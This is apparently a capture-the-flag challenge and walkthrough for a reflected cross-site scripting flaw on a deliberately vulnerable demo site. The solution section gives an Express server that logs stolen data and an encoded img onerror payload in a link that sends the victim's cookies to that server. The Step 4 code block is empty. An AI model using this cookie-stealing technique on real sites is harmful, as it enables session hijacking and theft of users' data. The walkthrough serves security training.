

# Web Exploitation (XSS)

## Challenge

### Incident Report #457

BananaCorp, a leading digital pastry delivery startup, recently reported suspicious activities on their customer portal. Our security team discovered their search functionality might be exposing sensitive customer data. Your mission is to verify this vulnerability.

**Target System**: [https://bananafish-node-xss-challenge.vercel.app](https://bananafish-node-xss-challenge.vercel.app)

### Mission Objectives

Security has tasked you with answering these critical questions:

1. How does BananaCorp's search system process special characters?
2. Could an attacker potentially harvest customer session data?
3. Demonstrate a proof-of-concept that exposes this vulnerability

### Intelligence Briefing

Our reconnaissance has uncovered these crucial details:

1. The search bar seems to reflect input directly into the page - look closely at how it handles HTML tags
2. Consider setting up a "catch station" (local server) to intercept any data you might discover. All field agents should be ready to receive intel
3. When testing the target system, remember: failed image loads trigger defensive protocols. This could be useful...

### Priority Level: HIGH

Our customers' dessert preferences must remain confidential! 

## Challenge Solution

### Vulnerable Site

[Link Live](https://bananafish-node-xss-challenge.vercel.app)

If there are no cookies in your browser's cookie jar, set some cookies using the following code in your browser's Console:

```js
document.cookie = "name=JohnDoe; SameSite=Script; path=/";
```

### Step 2: Create a Node Server

Create a Node server to log any valuable information obtained from the XSS attack.

```js
var express = require('express');
var app = express();

app.use(function(req, res, next) {
	res.header('Access-Control-Allow-Origin', '*');
	next();
});

app.get('/cookie', function(req, res, next) {
	console.log('GET /cookie');
	console.log(req.query.data);
	res.send('Thanks for Your Data (*_*)!');
});

app.listen(3001, function() {
	console.log('Logger Server listening at localhost:3001');
});
```

### Step 3: Run the Node Server Locally

Run the server locally with the following command:

```bash
# run the server locally
node logger-server.js
```

### Step 4: Exploit the XSS Vulnerability

Use the following HTML code with the XSS vulnerability to steal the session cookie:

```html
<!-- Actual HTML Code -->

```

### Step 5: Encode the HTML Code

Encode the above HTML code and use it as the search query:

```js
encodeURIComponent('');
```

Alternatively, you can use [this link](https://bananafish-node-xss-challenge.vercel.app/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20img%20%3D%20document.createElement('img')%3B%20img.src%20%3D%20'http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D'%20%2B%20document.cookie%3B%20document.querySelector('body').appendChild(img)%3B%22%3E).


### Step 6: Verify the Data

Check the terminal window of the evil server. If you can see the cookie data, then it's a win.



---
---